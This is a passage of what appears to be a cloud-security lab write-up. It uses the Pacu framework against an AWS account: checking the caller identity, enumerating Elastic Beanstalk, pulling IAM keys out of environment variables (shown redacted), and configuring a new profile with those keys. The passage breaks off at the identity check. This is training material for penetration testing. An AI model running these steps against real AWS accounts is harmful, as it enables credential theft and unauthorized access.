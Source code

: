 ```bash
ec2.describe_subnets()
sts.get_caller_identity()
dynamodb.describe_endpoints()
sts.get_session_token()
```

**User identity in Pacu:**

```json
Pacu (beanstalk:imported-beanstalk) > whoami
{
  "UserName": "cgidjyfk5bfoad_low_priv_user",
  "Arn": "arn:aws:iam::727671863602:user/cgidjyfk5bfoad_low_priv_user",
  "AccountId": "727671863602"
}
```

---

## Elastic Beanstalk Enumeration

Using Pacu to enumerate Elastic Beanstalk:

```bash
Pacu (beanstalk:imported-beanstalk) > run elasticbeanstalk__enum --region us-east-1
```

> **Note:** This module automatically checks for IAM permissions and exits early if the current profile doesn't have `elasticbeanstalk:DescribeConfigurationSettings`.

### Findings (when run with appropriate permissions):

- Elastic Beanstalk application and environment found in `us-east-1`
- Sensitive environment variables discovered containing IAM credentials:

```env
SECONDARY_ACCESS_KEY=[REDACTED]
SECONDARY_SECRET_KEY=[REDACTED]
```

Output saved to:
```
/home/tcm/.local/share/pacu/beanstalk/downloads/beanstalk_secrets_beanstalk_us-east-1.txt
```

---

## Using Discovered Credentials

Configured new AWS profile with discovered keys:

```bash
aws configure --profile beanstalk2
```

Verified new identity:
